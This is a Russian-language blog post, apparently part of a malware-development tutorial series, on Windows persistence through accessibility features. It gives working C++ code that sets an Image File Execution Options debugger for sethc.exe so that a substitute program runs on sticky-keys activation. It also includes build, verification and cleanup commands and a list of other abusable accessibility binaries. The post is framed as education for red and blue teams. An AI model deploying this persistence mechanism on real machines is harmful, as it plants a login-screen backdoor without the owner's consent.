

\newpage
\subsection{78. Разработка вредоносного ПО: закрепление (persistence) - часть 12. Функции доступности. Простой пример на C++.}

﷽

{width="80%"}    

Этот пост является результатом моего собственного исследования ещё одного метода персистентности вредоносного ПО на уровне администратора: через функции доступности Windows.    

В одном из [предыдущих](https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html) постов я писал о персистентности через Image File Execution Options. В одном из примеров PoC мы просто создавали отладчик для процесса-жертвы в этом ключе реестра:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

После этого единственное, что требовалось, - разместить вредоносное приложение в `System32`.    

### практический пример. sethc.exe

Сегодня я просто заменю наш целевой процесс на `sethc.exe`. Но что такое `sethc.exe`? Этот исполняемый файл отвечает за залипающие клавиши. Нажатие клавиши `Shift` `5` раз включает залипающие клавиши:    

{width="80%"}    

Вместо легитимного `sethc.exe` будет запущен поддельный `sethc.exe`, который, как обычно, для простоты просто вызывает messagebox "meow". Исходный код довольно похож (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

окно сообщения Meow-meow:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### демонстрация

Давайте посмотрим, как это работает на практике. Сначала проверим ключи реестра:        

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\
Image File Execution Options" /s
```

{width="80%"}    

Затем, компилируем наш `pers.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Запустим и снова проверим реестр:    

> **Для замены системного бинарного файла Windows требуются права администратора**    

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
Execution Options\sethc.exe" /s
```

{width="80%"}    

Наконец, нажмем `Shift` `5` раз:     

{width="80%"}    

Посмотрим на свойства `hack.exe`:     

{width="80%"}    

{width="80%"}    

Отлично! =^..^=    

После завершения эксперимента, для очистки, выполните:     

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image 
File Execution Options\sethc.exe" -Force -Verbose
```

{width="80%"}    

### заключение

Функции доступности Windows включают набор утилит, доступных с экрана входа в систему (например, залипающие клавиши). Некоторые из этих функций и их соответствующие триггеры:

**1. Диспетчер специальных возможностей**     
- `C:\Windows\System32\Utilman.exe`     
- Триггер: `Windows + U`      

**2. Экранная клавиатура**     
- `C:\Windows\System32\osk.exe`      
- Триггер: клик по экранной клавиатуре     

**3. Экранная лупа**   
- `C:\Windows\System32\Magnify.exe`     
- Триггер: `Windows + =`        

**4. Экранный диктор**       
- `C:\Windows\System32\Narrator.exe`    
- Триггер: `Windows + Enter`    

**5. Переключение экрана**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Триггер: `Windows + P`    

Эти функции Windows стали широко известны после того, как группы APT использовали их для получения бэкдора на целевых компьютерах. Например, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) и [APT41](https://attack.mitre.org/groups/G0096/) использовали залипающие клавиши.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит инструмент в арсенал красных команд.    

[MITRE ATT&CK. Event Triggered Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-09-30-malware-pers-12)      
